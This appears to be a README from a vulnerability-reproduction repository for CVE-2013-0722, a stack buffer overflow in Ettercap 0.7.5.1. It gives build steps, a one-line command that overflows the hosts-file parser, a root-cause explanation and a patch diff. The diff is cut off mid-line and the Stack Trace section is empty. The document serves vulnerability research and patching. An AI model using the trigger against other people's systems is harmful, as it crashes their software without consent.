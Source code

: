 # CVE-2013-0722

## Experiment Environment

Ubuntu 14.04.5

Kali Linux

Ubuntu 12.04

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-0722/ettercap-0.7.5.1.tar.gz
tar -xvf ettercap-0.7.5.1.tar.gz
cd ettercap-0.7.5.1

mkdir build
cd build
cmake ../
make
```


## Problems in Installation & Configuration

Multiple definition of `EC_PTHREAD_NULL` may appear on aarch64 platform. If so, try to use [fix-multiple-definition.patch](fix-multiple-definition.patch).

## How to trigger vulnerability

```
cd src/
sudo ruby -e'puts"a"*2000' > overflow && sudo ettercap -T -j overflow
```

## PoCs

[Ettercap 0.7.5.1 - Stack Overflow](https://www.exploit-db.com/exploits/23945/)

[Ettercap Multiple Stack Buffer Overflow Vulnerabilities](https://www.securityfocus.com/bid/57175/exploit) **Note:** this poc description has some unmalformed html element.

## Vulnerability Patch

### Root Cause

A stack-based buffer overflow was reported [1],[2] in Ettercap <= 0.7.5.1.  A boundary error within the scan_load_hosts() function (in src/ec_scan.c), when parsing entries from a hosts list, could be exploited to cause a stack-based buffer overflow via an overly long entry.  In order to exploit this, a user must be tricked into loading a malicious host file.

### Stack Trace

### Patch

--- EC-vulnerable/src/ec_scan.c
+++ EC-fixed/src/ec_scan.c
@@ -630,7 +630,7 @@
    for (nhosts = 0; !feof(hf); nhosts++) {
       int proto;
 
-      if (fscanf(hf, "%s %s %s\n", ip, mac, name) != 3 ||
+      if (fscanf(hf, "%"EC_TOSTRING(MAX_ASCII_ADDR_LEN)"s %"EC_TOSTRING(ETH_ASCII_ADDR_LEN)"s %"EC_TOSTRING(MAX_HOSTNAME_LEN)"s\n", ip, mac, name) != 3 ||
          *ip == '#' || *mac == '#' || *name == '#')
          continu

## References

[CVE-2013-0722 ettercap: stack-based buffer overflow when parsing hosts list](https://bugzilla.redhat.com/show_bug.cgi?id=894092)
